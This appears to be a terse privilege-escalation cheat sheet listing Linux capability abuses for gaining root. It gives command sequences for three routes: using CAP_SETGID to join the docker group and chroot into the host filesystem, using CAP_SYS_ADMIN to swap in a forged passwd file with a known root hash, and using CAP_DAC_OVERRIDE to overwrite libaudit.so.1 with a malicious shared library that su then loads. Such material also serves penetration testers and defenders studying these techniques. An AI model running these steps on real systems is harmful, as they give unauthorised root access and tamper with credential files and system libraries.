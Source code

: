# CAP_SETGID python

- cat /etc/group
- select docker group id
- use `setgid.py <dockergroupid>`
- finally `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

# CAP_SYS_ADMIN python

cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
run cap_sys_admin.py
su root
password

# CAP_DAC_OVERRIDE ld.bfd

- getcap -r / 2>/dev/null
- capsh --print
  - If CAP_DAP_READ is set continue
- find / -perm -04000 -ls 2>/dev/null
- if /bin/su in the list continue
- ldd /bin/su
- objdump -T /bin/su | grep audit
- if "audit_open", "audit_log_user_message" or "audit_log_user_commands" in the output continue
- if /lib/x86_64-linux-gnu/libaudit.so.1 in the list continue
- compile basic privesc C program
- gcc -shared -o /lib/x86_64-linux-gnu/libaudit.so.1 -fPIC exploit.c
- su

Now you can run commands as root
